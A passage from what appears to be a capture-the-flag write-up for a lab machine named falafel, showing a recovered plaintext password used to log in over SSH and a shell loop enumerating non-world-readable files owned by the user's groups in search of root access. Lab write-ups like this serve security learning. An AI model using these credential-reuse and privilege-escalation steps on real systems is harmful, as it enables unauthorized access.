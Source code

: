 That happens to have yossi's password on it.



    root@kali# cat yossi.password
    MoshePlzStopHackingMe!

    root@kali# cat yossi.password | xclip; ssh yossi@10.10.10.73
    yossi@10.10.10.73's password:
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    0 packages can be updated.
    0 updates are security updates.


    Last login: Fri May 18 01:35:48 2018 from 10.10.14.40
    yossi@falafel:~$



## Find root.txt

### Searching Groups

Because we are looking for things that yossi has access to that moshe
doesn't, we'll start by looking for files in yossi's groups that are not
world readable:



    yossi@falafel:/dev/shm/.d$ groups
    yossi adm disk cdrom dip plugdev lpadmin sambashare

    yossi@falafel:/dev/shm/.d$ for group in $(groups); do echo ${group}; find / -group ${group} ! -type d ! -perm -o=r -exec ls -la {} \; 2>/dev/null | grep -vF " /proc" > ${group}; done
    yossi
    adm
    disk
    cdrom
    dip
    plugdev
    lpadmin
    sambashare

    yossi@falafel:/dev/shm/.d$ ls -l
    total 12
    -rw-rw-r-- 1 yossi yossi 1836 May 18 13:07 adm
    -rw-rw-r-- 1 yossi yossi  106 May 18 13:07 cdrom
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 dip
    -rw-rw-r-- 1 yossi yossi  795 May 18 13:07 disk
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 lpadmin
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 plugdev
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 sambashare
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 yossi
